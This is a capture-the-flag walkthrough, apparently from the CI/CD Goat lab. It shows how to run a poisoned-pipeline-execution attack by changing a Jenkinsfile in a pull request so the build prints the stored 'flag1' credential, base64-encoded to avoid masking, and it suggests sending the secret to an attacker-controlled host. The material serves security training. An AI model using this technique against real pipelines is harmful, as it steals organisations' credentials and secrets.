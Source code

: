 Create a pull request and execute a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack against the _Wonderland/white-rabbit_ repository to steal the _flag1_ secret, which is stored in the Jenkins credential store with the Global scope - meaning it’s accessible to any pipeline on the Jenkins instance.

1. Clone the _Wonderland/white-rabbit_ repository.
2. Checkout to a new branch.

```shell
git checkout -b challenge1
```

3. Modify the Jenkinsfile to load _flag1_, and print it to the Jenkins build console output which you have access to (encode it so it won’t be masked), or send it to a host you control.

    Under “environment”, load the secret:

```groovy
stage ('Install_Requirements') {
    steps {

        withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
            sh '''
                echo $flag1 | base64
            '''                 
        }
```

4. Push the changes to the remote branch and create a pull request. A pipeline will be triggered automatically.
5. Access the console output of the executed job to get the secret.